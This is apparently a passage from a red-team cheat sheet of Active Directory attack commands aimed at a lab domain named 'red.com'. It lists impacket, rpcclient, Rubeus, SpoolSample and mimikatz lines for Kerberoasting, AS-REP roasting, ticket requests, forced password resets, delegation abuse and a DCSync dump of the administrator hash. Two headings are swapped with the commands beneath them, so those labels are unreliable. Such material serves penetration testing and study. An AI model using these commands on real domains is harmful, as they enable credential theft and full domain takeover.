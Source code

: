 - RPCClient
```bash
enumdomgroups

querygroup 0x200
```

### ASREPoasting
```bash
python3 impacket/example/GetUserSPNs.py red.com/ -no-pass -dc-ip 10.9.20.10 -userfile users.txt /fomat:hashcat
```
### Kerberoasting
```bash
python3 impacket/example/GetNPUsers.py red.com/kevin:Passw0rd  -dc-ip 10.9.20.10
```
### Overpass the Hash/PTK
```bash
python3 impacket/example/getTGT.py red.com/kevin:Passw0rd
```

### Reset AD Password

- RPCClient
```bash
setuserinfo2 lawrencecohen 23 'Passw0rd'
```
## Domain Reconnaissance on Windows
### GPO

Check GPOs which enable group of users to have remote access (PsExec, WMI, WinRM, RDP, etc) to specific hosts.

### Kerberoasting
```powershell
rubeus.exe kerberoast /user:svc_sql /nowrap
```
### ASREPRoasting
```powershell
rubeus.exe asreproast /format:hashcat /user:svc_sql /nowrap
```
### Unconstrained Delegation
```powershell
rubeus.exe monitor /interval:1 /filtuser:reddc$ /nowrap

Spoolsample.exe reddc redsqlw

rubeus.exe ptt /ticket:[ticket]

mimikatz # lsadump::dcsync /domain:red.com /user:RED\administrator
```
### Constrained Delegation
```powershell
rubeus.exe tgtdeleg /nowrap

rubeus.exe s4u /impersonate:kevin /user:svc_sql /domain:red.local /msdsspn:time/redwebaw.red.com /altservice:cifs,host,http,winrm /ticket:[ticket] /dc:reddc.red.com /ptt
```
### Resource Based Constrained Delegation
```powershell
ipmo .\powermad.ps1
```